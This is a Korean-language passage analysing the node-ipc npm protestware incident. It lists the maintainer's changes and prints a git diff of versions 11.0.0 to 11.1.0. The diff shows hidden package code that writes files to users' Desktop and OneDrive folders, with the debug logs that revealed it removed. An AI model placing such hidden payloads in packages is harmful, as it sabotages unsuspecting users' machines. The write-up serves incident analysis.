 1. 패키지 컨텐츠에 샘플코드를 추가
2. 의존 패키지로 `peacenotwar` 추가, `node-ipc` 호출시에 `peacenotwar` 실행
3. 다른 메인테이너에 의해 [의도적인 취약성 코드](https://snyk.io/blog/open-source-npm-packages-colors-faker/) `colors@*` 명시적 추가
4. 새 마이너버전에서는 라이센스를 MIT에서 [DBAD](https://dbad-license.org/)로 변경
   > DBAD에는 거친 표현이 들어가 있습니다.

거의 동시에 새로운 마이너버전이 출시되었다.
`node-ipc@11.1.0`의 의존처인 `peacenotwar` 버전업인데, console.log()에서 STDOUT 출력하는 메세지를 삭제했다. `node-ipc`의 2개의 npm 패키지 사이의 차이는 `git diff`로 확인 가능하다.

```diff
diff --git a/node-ipc.cjs b/node-ipc.cjs
index v11.0.0..v11.1.0 100666
--- a/node-ipc.cjs
+++ b/node-ipc.cjs
@@ -1328,7 +1328,6 @@
 var OneDriveDesktopFileExists = fromDir(OneDriveDesktops, "WITH-LOVE-FROM-AMERICA.txt");
 var OneDriveFileExists = fromDir(OneDrive, "WITH-LOVE-FROM-AMERICA.txt");
 function deliverAPeacefulMessage(path2, message) {
-  console.log(path2);
   try {
     import_fs5.default.writeFile(path2, message, function(err) {
     });
@@ -1336,7 +1335,6 @@
   }
 }
 if (!(DesktopFileExists == null ? void 0 : DesktopFileExists.length) && !(OneDriveFileExists == null ? void 0 : OneDriveFileExists.length) && !(OneDriveDesktopFileExists == null ? void 0 : OneDriveDesktopFileExists.length)) {
-  console.log("in here");
   const thinkaboutit = "WITH-LOVE-FROM-AMERICA.txt";
   const WITH_LOVE_FROM_AMERICA = read(`./${thinkaboutit}`);
   deliverAPeacefulMessage(`${Desktops}${thinkaboutit}`, WITH_LOVE_FROM_AMERICA);
diff --git a/package.json b/package.json
index v11.0.0..v11.1.0 100666
--- a/package.json
+++ b/package.json
@@ -1,6 +1,6 @@
 {
   "name": "node-ipc",
-  "version": "11.0.0",
+  "version": "11.1.0",
   "description": "A nodejs module for local and remote Inter Process Communication (IPC), Neural Networking, and able to facilitate machine learning.",
   "type": "module",
   "main": "node-ipc.cjs",
@@ -19,7 +19,7 @@
     "event-pubsub": "5.0.3",
     "js-message": "1.0.7",
     "js-queue": "2.0.2",
-    "peacenotwar": "^9.1.3",
+    "peacenotwar": "^9.1.5",
     "strong-type": "^1.0.1"
   },
   "devDependencies": {

```
